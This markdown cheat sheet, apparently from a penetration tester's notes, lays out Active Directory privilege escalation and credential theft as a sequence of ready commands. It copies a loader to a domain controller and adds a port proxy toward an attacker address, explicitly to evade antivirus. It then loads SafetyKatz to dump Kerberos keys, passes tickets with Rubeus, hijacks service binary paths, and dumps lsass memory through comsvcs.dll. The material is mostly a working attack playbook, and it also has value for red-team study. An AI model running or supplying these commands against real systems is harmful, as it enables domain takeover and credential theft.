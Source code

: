 ```yaml
---
layout: app
title: "Active Directory - PrivEsc"
tags: ["privesc","powerup","powerview","abuse service", "sc.exe", "Rubeus","permissions", "netloader","winrs","SafetyKats"]

---
```


# Privilege Escalation

## CheckList

- -**Missing Patches**
- -**Automated deployment**
- -**Autologon passwords**
- -**AlwaysInstallElevated**
- -**MisConfiguration Services**
- -**DLL Hijacking**
- -**NTLM Relaying**


### Tools
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* - Invoke-AllChecks
* [Privesc](https://github.com/enjoiz/Privesc)
* [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)


# Extract Hashes or Credentials

Import PowerView.ps1
Use to find out opened sessions

```powershell
Find-DomainUserLocation
```

Download NetLoader.exe and copy to Domain Controller

```powershell
echo f | xcopy C:\users\public\loader.exe \\dc01\c$\Users\Public\loader.exe
```

Add port forward into Domain Controller using winrs, to prevent AV detect

```powershell
$null | winrs -r:dc01 "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=280 connectaddress=[attacket_address]"
```

Invoke Loader to run SafetyKats to get hashes and credentials

```powershell
$null | winrs -r:dc01 "c:\Users\Public\loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit"
```

With **aes256_hmac** can be use **Rubeus** to execute command

```powershell
Rubeus.exe asktgt /user:<username> /aes256:<aes256_hmac> /opsec /createnetonly:C:\windows\system32\cmd.exe /show /ptt
```

## PowerSploit

### Get Services with Unquoted Path

```powershell
Get-ServiceUnquoted -Verbose
Get-WmiObject -Class win32_service | select pathname
```
### Current User rights

Determine if the current user has rights to modify the service binary itself or any associated arguments

```powershell
Get-ModifiableServiceFile
```

### Get Service Security Permission
```powershell
sc.exe sdshow "servicename"
```
**--------------------OUTPUT----------------------------**

- **D**: Indicates that is a Security Policy
- **A**: Indicates than additional permits are granted.
- **CC**: Change Permissions
- **LCSW**: List Contents
- **RP**: Read Permission
- **WP**: Write Permission
- **DT**: Delete Toggles
- **LOCRRC**: Ocultar o revelar recursos
- **;;;** indicates that the permissions apply to the account **service**

### Abuse of service

```powershell
sc.exe config "servicename" binpath="newservicepath"
```


## Enumeration

### Find computers where a current user can execute commands

```powershell
Find-LocalAdminAccess
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1 
Invoke-CheckLocalAdminAccess
```

### Get all domain computers

```powershell
Get-NetComputer
```
### Finds domain machines where specific users are logged into

```powershell
Test-AdminAccess
Find-DomainUserLocation -CheckAccess
Find-DomainUserLocation -Stealth
```
## Run all checks

### PowerUp


```powershell
Invoke-AllChecks
```

### Privesc

```powershell
Invoke-PrivEsc
Invoke-Privesc check
```

### PEASS-ng

```powershell
winPEASx64.exe
```

# Dump Memory

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump "Lsass Process ID" c:\temp\lsass.dmp full
```

## Tools 

* lsassy
* Physmem2profit
* impacket